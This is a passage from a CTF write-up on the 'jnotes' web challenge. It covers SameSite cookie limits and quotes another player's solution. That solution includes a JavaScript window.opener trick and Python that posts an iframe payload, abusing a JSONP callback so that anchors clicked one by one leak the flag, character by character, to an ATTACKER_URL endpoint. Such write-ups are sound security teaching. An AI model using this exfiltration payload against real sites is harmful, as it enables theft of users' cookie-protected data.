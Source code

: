 Opening `file://.../t.html` in the browser, I verified that it was possible to leak data using `window.closed`. The first problem, however, proved to be more difficult.

My teammate, @kek, suggested using an iframe in the parent window, which can be accessed from jnotes with `window.opener.frames[0].document.body.textContent` since they are same-origin. However, we later found out that the iframe isn't able to load the flag since the `secret` cookie isn't sent due to [SameSite restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions). Although it isn't explicitly set on the `secret` cookie, the default value for `SameSite` on chrome, which puppeteer uses, is `Lax`. `Lax` cookies are only sent when the two conditions are met:

- The request uses the GET method.
- The request resulted from a top-level navigation by the user, such as clicking on a link.

The second restriction makes it impossible for the cookie to ever be sent from an iframe. So `/api/flag` must be on a top-level window. I tried using `window.open('/api/flag')` from the attacker site, but couldn't find a way to access it from jnotes using only property names.

Unfortunately, we got stuck here and the CTF ended 40 minutes later.

# What we were missing

After the CTF, we looked at [@realansgar's solution](https://discord.com/channels/912045579541041192/1401128395223334922/1401868459750592553) which had a similar approach. Here's the missing piece:

```javascript
<script>
    window.open('https://jnotes-web.chal.idek.team/note/{noteid}', '_blank');
    location = 'https://jnotes-web.chal.idek.team/api/flag';
</script>
```

Navigating to `/api/flag` on the _original window_ after opening the jnotes site meant we could access the window handle with `window.opener`.

Additionally, instead of using `window.close` to leak characters (which no longer works since our site has been replaced with `/api/flag`), @realansgar used the `click()` method on anchor tags, which is much simpler and faster:

```python
def gen_anchors():
    for char in range(ord("!"), ord("z")):
        yield f"""<a id="&#{char};" href="{ATTACKER_URL}/leak?char=&#{char};" target="top">Click me</a>"""

...

@app.route("/attack")
def attack():
    res = requests.post(
        "https://jnotes-web.chal.idek.team/api/post",
        json={
            "noteTitle": "a",
            "noteContent": f"""
                <iframe srcdoc='
                    {"\n".join(gen_anchors())}
                    <script src="/api/view/f82fdf2d9cdbd5f0688289313260b3d5?callback=window[top.opener.document.body.children[0].textContent[{len(FLAG)}]].click"></script>
                ' /> 
    """,
        },
    )
```
